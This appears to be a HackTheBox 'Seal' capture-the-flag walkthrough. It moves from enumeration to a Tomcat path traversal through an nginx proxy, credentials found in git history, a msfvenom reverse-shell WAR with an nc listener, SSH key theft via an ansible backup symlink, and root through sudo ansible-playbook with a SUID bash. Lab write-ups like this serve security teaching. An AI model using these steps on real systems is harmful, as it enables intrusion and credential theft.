# HackTheBox - Seal

## Introduction
This box was quite an interesting box. It is a medium box in HTB with Linux as it's Operating System. So let's go through my walkthrough.

### 1. Enumeration
When i joined the box, i was given the ip address of box as `10.10.10.250`. As always i started with my `nmap` scan
```
> nmap -sC -sV -A -oN nmap_initial 10.10.10.250 
```



From the above nmap scan, we quickly found out that there is a https service running on port **443** whereas another http-proxy service running on port **8080**. We can also see a recommendation for host name as `seal.htb`. Setting the host configuration, let's check the website hosted on port 443.

The website in port 443 looks like a fancy version of some vegetable market. Looking at port 8080, we see a blank page. Observing the response for the request, we see unauthorized error. Then i decided to fuzz for endpoints to see if we can get anything
```
> ffuf -u http://10.10.10.250:8080/FUZZ -w /mnt/hack/wordlist/common.txt -ac
```



We can see there are two endpoints available. Going through register endpoint, we can see that we can create an account in gitbucket. So registering and signing in to gitbucket service, we see two repos by root **infra** and **seal_market**.

Looking at **seal_market** repo, we can quickly find that this service is running on port 443, so this looks interesting.

Reading the `README.md` file,



So First we know that nginx is just relaying the request to backend tomcat server and secondly the configuration for this server is not the newest as shown in the repos so we can search through commit as the older configuration might be vulnerable.
And Lastly we know that we have access to manager and host-manager from the https://seal.htb/ so let's try that.



Well we should have access to it as said in the README then I thought maybe we have access to some other endpoint in manager.
So let's fuzz and see we know that it is tomcat so it's better to use specialized wordlist for that.
I am using one from the seclist which you can find at the below link.
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/tomcat.txt

```
> ffuf -k -u https://seal.htb/FUZZ -w tomcat.txt -c
```



Looks like we can access https://seal.htb/manager/status.xsd
and also we have have https://seal.htb/manager/jmxproxy
and yeah it's asked from creds so let's go on finding those in some previous commit as we know that it is using old tomcat configuration from the README.md file.

Looking through commits on this repo we have 13 commit which wouldn't be much to look through.
http://seal.htb:8080/root/seal_market/commits/master
The commit looks intresting in our context which is adding 'adding tomcat configuration' and 'updating tomcat configuration' as we know that updating configuration is probably the current version let's check 'adding tomcat configuration' first.

We can see that there is a file named tomcat-user.xml, where we find some credentials.



Now we have username and password let's try to login on https://seal.htb/manager/jmxproxy and boom we are in the manager pannel.

Looking for exploit for tomcat I found an intresting path traversal exploit in tomcat which uses reverse proxy which is the case here as nginx is used as reverse proxy for tomcat running on localhost.

https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/

So from above article we can try directory path traversal to exploit and access forbidden page.
`https://seal.htb/manager/jmxproxy/..;/html`
this takes us to the home page of tomcat manager. Now as we can deploy war file we can just get the reverse shell easily.

### 2. Malicious Payload
So first let's generate war payload.
```
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.188 LPORT=9001 -f war -o myshell.war
```

Now let's upload the war file and intercept the request so that we can modify our url as we are not allowed to directly access html.



Now listen to any connection on our mentioned port
```
> rlwrap nc -vnlp 9001
```
and trigger the rev shell. And boom we have the reverse shell.

We quickly find that the **user.txt** file is in `/home/luis/` but we cannot view as a tomcat user which we are authorized as. Looking at the process running this thing caught my eye as there was .ansible directory in luis home directory and there a process running as luis probably a backup service.



Taking a look at run.yml,
```yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/

```
The intresting part in this thing is that it also copies the symblink also as it has copy_links=yes. So this gave me an idea to create a symblink of file or folder. Looking at the permission of the folder we can see that we have read and write access only to subfolder i.e. we can write in `uploads` folder.

Now we have to think of what to symlink so we know the user luis have .ssh directory so that might be intresting so let's try that.
```
> ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

Now wait for it to create the new archive.
After that creates the new archive it usually takes about a minute to do so be patient.
After you have the archive just move it to /dev/shm cause you cannot extract the archive in that folder as it is read only.
```
> cp backup-2021-07-23-15:35:33.gz /dev/shm/back.gz
```
Let's decrypt it with following commands
```
> gzip -kd back.gz
> tar -xf back
```
Then we can find the folder named `dashboard` where we can get `.ssh` inside uploads and we now have ssh key for user luis. Now let's use it to ssh into box as user luis.
For that first save the `id_rsa` file into your local device and
```
> chmod 600 id_rsa
> ssh -i id_rsa luis@10.10.10.250
```

Then we get a shell as user luis. So we can now get the user flag.



### 3. Privilege Escalation
Now we know what to do first, don't we ?
```
> sudo -l
```



We can see that we are allowed to run `ansible-playbook` as a root user without password using `sudo` command.

A little google search let us know that we can create a yml file and use it to run any command as root. So let's create a yml file
```yml
- hosts:localhost  
  tasks:
  - name : root
    command : chmod +s /bin/bash
```
Now let's run that suid bit `/bin/bash`



Now we can get the root flag.

#### Conclusion
Root flag was comparatively easier than that of user flag.